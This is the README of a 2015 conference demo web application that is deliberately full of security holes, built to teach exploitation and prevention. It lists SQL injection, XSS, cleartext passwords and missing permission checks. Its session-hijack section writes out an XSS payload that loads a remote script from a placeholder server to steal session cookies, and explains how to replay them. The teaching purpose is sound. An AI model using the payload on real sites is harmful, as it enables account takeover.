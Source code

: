# Web Application Security 101
## NCDevCon 2015

This project contains a web application full of security holes in order to demonstrate how they can be exploited and how those exploits can be prevented.

Slides from my presentation are in the Web_Application_Security_101.pdf file.

Unfortunately, a video recording of the presentation is not available due to a power outage during the conference. I've tried to add more context to the slides but if anything is unclear please feel to reach out to me on Twitter at [@kipthegreat](//twitter.com/kipthegreat) or via my website http://ampersand.space/contact/.

### Setup

1. Load the MySQL database (ncdevcon_security.sql).
1. **Suggestion**: If you are running anywhere besides localhost, because this application is full of security holes, create a separate database user that is only able to access the test database, and only able to run select/insert/update/delete.
1. For the ColdFusion version:
  1. Create a datasource named "ncdevcon_security" in ColdFusion Administrator pointing to this database.
  1. To be able to run session hijack demo, **HTTPOnly** option must be disabled (Server Settings / Memory Variables / Session Cookie Settings).  *(This is a security risk, so be sure to change it back when you are done.)*
1. For the PHP version:
  1. Fill in the database credentials in application.php
  1. To be able to run session hijack demo, you need to set `php_flag session.cookie_httponly off` option in php.ini or .htaccess. *(This is a security risk, so be sure to change it back when you are done.)*
1. The ncdevcon_security_hijack folder should be put on a different server for best demostration, but it is not necessary.
1. In ncdevcon_security_hijack project:
  1. Edit hijack2.js, setting absolute url to the hijack_logger.cfm or hijack_logger.php file.

### Security Holes

Some of the security holes you can note:

* Passwords are stored in database in clear text.
* SQL injection vulnerabilities in nearly every query.
* XSS vulnerability in Manage Users screen.
* No permissions check--normal user can access Manage Users screen via URL.
* Edit User screen takes unsecured 

### Using Session Hijack Demo

1. Edit a user's name to: `<img src="//bit.ly/1nHdObD" onload="s=document.createElement('script');s.src='//MYSERVER/ncdevcon_security_hijack/hijack2.js';document.head.appendChild(s);" />`
1. View the manage users page.
1. Check the ncdevcon_security_hijack/hijack_log.txt file. Copy the sample code to the clipboard.
1. Open a new Chrome Incognito browser and go to the index page. (At this point you should not be logged in.)
1. Open browser tools and paste the javascript code and run it.
1. Now refresh page. You should have now hijacked the session.

